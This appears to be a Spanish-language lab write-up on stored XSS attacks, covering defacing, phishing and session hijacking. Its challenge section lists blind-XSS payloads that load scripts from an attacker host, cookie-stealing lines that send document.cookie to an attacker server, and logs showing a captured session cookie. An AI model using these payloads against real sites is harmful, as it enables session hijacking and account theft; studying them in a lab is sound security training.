




# Defacing

Uno de los ataques más comunes que se suele utilizar con vulnerabilidades XSS almacenadas son los ataques de desfiguración de sitios web. Defacing un sitio web significa cambiar su apariencia para cualquiera que visite el sitio web. Es muy común que los grupos de piratas informáticos desfiguren un sitio web para afirmar que lo han pirateado con éxito, como cuando los piratas informáticos desfiguraron el Servicio Nacional de Salud (NHS) del Reino Unido en 2018 . Estos ataques pueden tener un gran eco en los medios y pueden afectar significativamente las inversiones y los precios de las acciones de una empresa, especialmente para los bancos y las empresas de tecnología.

Aunque se pueden utilizar muchas otras vulnerabilidades para lograr lo mismo, las vulnerabilidades XSS almacenadas se encuentran entre las vulnerabilidades más utilizadas para hacerlo. 

***

# Phishing
Otro tipo de ataque XSS muy común es el ataque de phishing. Los ataques de phishing suelen utilizar información que parece legítima para engañar a las víctimas para que envíen su información confidencial al atacante. Una forma común de ataques de phishing XSS es mediante la inyección de formularios de inicio de sesión falsos que envían los detalles de inicio de sesión al servidor del atacante, que luego pueden usarse para iniciar sesión en nombre de la víctima y obtener control sobre su cuenta e información confidencial. 

# Session Hijacking
Las aplicaciones web modernas utilizan cookies para mantener la sesión de un usuario durante diferentes sesiones de navegación. Esto permite al usuario iniciar sesión solo una vez y mantener activa su sesión iniciada incluso si visita el mismo sitio web en otro momento o fecha. Sin embargo, si un usuario malintencionado obtiene los datos de las cookies del navegador de la víctima, es posible que pueda iniciar sesión con el usuario de la víctima sin conocer sus credenciales.

Con la capacidad de ejecutar código JavaScript en el navegador de la víctima, es posible que podamos recopilar sus cookies y enviarlas a nuestro servidor para secuestrar su sesión iniciada realizando un Session Hijacking (también conocido como Cookie Stealing) ataque. 

## Reto




```
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

```
"><script src=http://10.10.15.235></script>
```

```                            
┌──(h4wker㉿alien)-[/tmp/tmpserver]
└─$ sudo php -S 0.0.0.0:80
[Sat Nov 30 20:29:40 2024] PHP 8.2.24 Development Server (http://0.0.0.0:80) started
[Sat Nov 30 20:35:21 2024] 10.129.98.193:53106 Accepted
[Sat Nov 30 20:35:21 2024] 10.129.98.193:53106 [404]: GET / - No such file or directory
[Sat Nov 30 20:35:21 2024] 10.129.98.193:53106 Closing
```

```
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

```
"><script src=http://10.10.15.235/script.js></script>
```

```
┌──(h4wker㉿alien)-[/tmp/tmpserver]
└─$ sudo php -S 0.0.0.0:80
[sudo] password for h4wker: 
[Sat Nov 30 21:04:32 2024] PHP 8.2.24 Development Server (http://0.0.0.0:80) started
[Sat Nov 30 21:04:47 2024] 10.129.18.110:59258 Accepted
[Sat Nov 30 21:04:47 2024] 10.129.18.110:59258 [404]: GET / - No such file or directory
[Sat Nov 30 21:04:47 2024] 10.129.18.110:59258 Closing
[Sat Nov 30 21:04:48 2024] 10.129.18.110:59260 Accepted
[Sat Nov 30 21:04:48 2024] 10.129.18.110:59260 Closed without sending a request; it was probably just an unused speculative preconnection
[Sat Nov 30 21:04:48 2024] 10.129.18.110:59260 Closing
[Sat Nov 30 21:05:02 2024] 10.129.18.110:59288 Accepted
[Sat Nov 30 21:05:02 2024] 10.129.18.110:59288 [200]: GET /script.js
[Sat Nov 30 21:05:02 2024] 10.129.18.110:59288 Closing
[Sat Nov 30 21:05:02 2024] 10.129.18.110:59290 Accepted
[Sat Nov 30 21:05:02 2024] 10.129.18.110:59290 [404]: GET /index.php?c=cookie=c00k1355h0u1d8353cu23d - No such file or directory
[Sat Nov 30 21:05:02 2024] 10.129.18.110:59290 Closing

```




